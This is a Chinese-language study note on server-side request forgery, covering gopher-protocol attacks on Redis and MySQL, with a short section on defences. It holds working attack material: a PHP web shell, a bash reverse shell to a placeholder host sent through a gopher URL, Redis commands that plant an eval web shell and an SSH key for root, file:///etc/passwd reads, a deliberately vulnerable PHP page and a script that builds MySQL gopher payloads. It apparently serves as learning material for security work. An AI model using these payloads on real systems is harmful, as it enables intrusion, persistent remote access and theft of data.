## 原理

很多web应用都提供了从其他的服务器上获取数据的功能。使用用户指定的URL，web应用可以获取图片，下载文件，读取文件内容等。这个功能如果被恶意使用，可以利用存在缺陷的web应用作为代理攻击远程和本地的服务器。这种形式的攻击称为服务端请求伪造攻击（Server-side Request Forgery）。

SSRF漏洞，在拉取外部资源的时候没有检查URL，导致可以向内网发送请求



<br/>

curl -v "ftp://ip:80"

端口存在连接会一直在连接，连接时间会很长。

	Connected to ip (ip) port 80 (#0)

端口不存在的连接会被立马刷新

	Failed connect to ip:21; Connection refused


http://www.sohu.com/a/300092789_609556

https://blog.chaitin.cn/gopher-attack-surfaces/

**https://www.cnblogs.com/Mikasa-Ackerman/p/11155779.html**

https://joychou.org/web/phpssrf.html

https://www.cnblogs.com/p0pl4r/p/10336501.html

https://blog.csdn.net/sojrs_sec/article/details/100999908

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null


## gopher协议

gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。现在它基本过时，人们很少再使用它。虽然很古老但现在很多库还支持gopher 协议而且gopher 协议功能很强大。

<font color='red'>**它可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。**</font>
gopher 协议使用tcp 可靠连接。

它只支持文本，不支持图像



**https://yinwc.github.io/2018/07/31/Gopher/**

https://www.cnblogs.com/Konmu/p/12984891.html

https://www.cnblogs.com/zhangqianxi/p/13337622.html

## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面

	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd



扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22



加载远程图片 (本服务端代码未成功，显示的二进制)




**大部分 PHP 并不会开启 fopen 的 gopher wrapper**

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议

### 写linux 公钥

linux免密登录：

原理：**用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录shell，不再要求密码。**

参考资料：[SSH原理与运用（一）：远程登录](https://www.ruanyifeng.com/blog/2011/12/ssh_remote_login.html)

条件：

将本地生成的公钥上传到(可覆盖可追加写入)远程服务器的文件: ```/root/.ssh/authorized_keys``` 下：



本地登录

	ssh root@remote_ip



登录成功。

如果登录失败：

可能要把远程主机的这个配置```vim /etc/ssh/sshd_config```打开，再上传```id_rsa.pub```（经本人实测，这个文件未被使用）,再重启ssh：



### gopher 攻击redis

Redis自身提供了一个config的命令,用来实现备份功能，然后备份的文件名和备份的路径都可以控制,从而可以实现任意文件写功能：

	config get dir
	config get dbfilename

这种情况一般大都是出在了root权限执行的redis中,或者是以某个web服务来启动的redis，从而对web目录具有了可写的权限。

信息泄露：

	info

	config get *





	select 5
	set 1 '<?php eval($_POST["test"]);?>'
	config set dir /var/www/html
	config set dbfilename 5he1l.php
	save
	quit

这里不建议使用 flushall。flushall命令会清空所有缓存数据,这个在一定程度不会造成巨大的损失，但是会给业务体验带来影响。默认保存的是当前数据库下内容,所以我们完全不用flushall来清空默认0号的数据库内容。

redis 默认数据库有16个，选择一个空的数据库即可：



	-x 

	代表从标准输入读取数据作为该命令的最后一个参数。

	$echo "world" |redis-cli -x set hello

将 ssh 公钥写日志：

	(echo -e "\n"; cat id_rsa.pub; echo -e "\n") > temp.txt
	cat temp.txt | redis-cli -a 666 -x set 1

	config set dir /root/.ssh/
	config set dbfilename authorized_keys
	save

要求默认 ```/root/.ssh/``` 必须有这个目录，没有不会自己创建。

如图，就是权限不足，但可以向web目录写shell。



我的redis 是yum安装的，没有向 ```/root``` 目录写文件的权限。

cat /etc/passwd 查看权限：





另一台服务器，**redis是后台root权限启动的**，cat /etc/passwd 没有看到redis用户。 这种情况可以向 ```/root```目录写文件。

	/opt/insa/redis/bin/redis-server /opt/insa/redis/etc/redis.conf 



### gopher 攻击mysql

MySQL认证过程：

MySQL客户端连接并登录服务器时存在两种情况：需要密码认证以及无需密码认证。当需要密码认证时使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证；当无需密码认证时直接发送TCP/IP数据包即可。所以在非交互模式下登录并操作MySQL只能在无需密码认证，未授权情况下进行，本文利用SSRF漏洞攻击MySQL也是在其**未授权**情况下进行的。

环境：<=php5.6

php 5.7 安全性加强，默认不允许创建空密码用户。

新建一个无密码的mysql用户：

	CREATE USER 'usernopass'@'localhost';
	GRANT USAGE ON *.* TO 'usernopass'@'localhost';
	GRANT ALL ON *.* TO 'usernopass'@'localhost';

查看php 支持的扩展：

	php -m

[php如何查看扩展是否开启](https://blog.csdn.net/weixin_34055787/article/details/93571824)

可以用工具发包：

mysql协议实现了登录认证和执行sql：

	python exploit.py -u usernopass -d 'mysql' -P 'select now()' -v -c

下面2个包分别是mysql登录成功和失败的数据包：
```exploit mysql login success.pcap```  和 ```exploit mysql login fail.pcap```

攻击方法：

	tcpdump -i lo port 3306 -w mysql.pcap -vvv

	mysql -h 127.0.0.1 -u usernopass

使用神器[Gopherus](https://github.com/tarunkant/Gopherus)生成payload:



用curl命令测试：



工具原理：



抓包，过滤请求包，查看raw：



将内容复制，整理到一行，再使用如下脚本转化为gopher格式：

	s="c100000184a69f200000000121000000000000000000000000000000000000000f000000757365726e6f7061737300006d7973716c5f6e61746976655f70617373776f7264007e035f6f73054c696e75780c5f636c69656e745f6e616d650a6c69626d617269616462045f7069640532343032340f5f636c69656e745f76657273696f6e05332e312e39095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c0c5f7365727665725f686f7374093132372e302e302e31210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031"
	def result(s):
	    a=[s[i:i+2] for i in xrange(0,len(s),2)]
	    return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)
	print result(s)

未做多个其他命令的测试，使用上面的神器应该可以满足大部分情况。

不过5.6，5.7默认都是只能写到指定目录，要结合文件包含。

	show global variables like '%secure%';




## ssrf 解决方案

### 可能出现的位置

云服务器商。(各种网站数据库操作)

有远程图片加载的地方。(编辑器之类的有远程图片加载啊)

网站采集、网页抓取的地方。(很多网站会有新闻采集输入url然后一键采集)

头像的地方。(某易就喜欢远程加载头像，例如:http://www.xxxx.com/image?url=http://
www.image.com/1.jpg)

最后一个一切要你输入网址的地方和可以输入ip的地方，都是ssrf的天下。

### 解决方案1

•        限制协议为HTTP、HTTPS

•        禁止30x跳转

•        设置URL白名单或者限制内网IP


### 解决方案2

1.解析目标URL，获取其Host

2.解析Host，获取Host指向的IP地址

3.检查IP地址是否为内网IP

4.请求URL

5.如果有跳转，拿出跳转URL，执行1

6.禁用不必要的协议  可以防止类似于 ```file:///, gopher://, ftp://``` 等引起的问题。


## 参考资料

[php，java， python中的ssrf ](https://www.t00ls.net/articles-41070.html)

[Gopher](https://www.kancloud.cn/a173512/php_note/1690690)

[SSRF To RCE in MySQL](https://mp.weixin.qq.com/s/9vk-H36erencugdYca9qXA)

[Gopher协议在SSRF漏洞中的深入研究](https://zhuanlan.zhihu.com/p/112055947)

[HTTP中请求转发和重定向的区别](https://blog.csdn.net/hewenjing8168/article/details/78006623)

## 后记

### 转发和重定向的区别

转发是服务器行为，重定向是客户端行为

转发：客户浏览器路径栏显示的仍然是其第一次访问的路径，也就是说客户是感觉不到服务器做了转发的。转发行为是浏览器只做了一次访问请求。

转发在服务器端完成的；重定向是在客户端完成的

转发的速度快；重定向速度慢

转发的是同一次请求；重定向是两次不同请求

转发不会执行转发后的代码；重定向会执行重定向之后的代码

转发地址栏没有变化；重定向地址栏有变化

转发必须是在同一台服务器下完成；重定向可以在不同的服务器下完成


